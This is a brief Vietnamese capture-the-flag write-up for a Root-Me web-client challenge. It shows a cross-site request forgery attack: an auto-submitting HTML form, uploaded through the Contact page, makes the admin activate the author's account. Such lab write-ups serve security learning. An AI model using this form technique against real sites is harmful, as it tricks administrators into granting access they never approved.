





Challenge: http://challenge01.root-me.org/web-client/ch22/

Đăng ký rồi đăng nhập: 


Ở đây ta cần đọc phần Private nhưng để đọc được thì cần admin active cho tài khoản của mình, phần `Status` ta sẽ không tự đánh dấu được.

Vậy ở đây ta sẽ cần dùng CSRF để admin sẽ active tài khoản mình. 

Đầu tiên ta sẽ bật `Status` checkbox để thử gửi request:


Vào burp suite ta thấy được request: 


Tạo 1 đoạn html form để khi admin click vào sẽ tự active cho mình: 
```
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" enctype="multipart/form-data" method="POST">
<input name="username" value="a" />
<input name="status" value="on" />
<input type="submit" value="Submit Request" />
</form>

<script>
document.getElementById("form").submit();
</script>
```

Sau đó up html này lên Contact và đợi admin click vào form đó:  


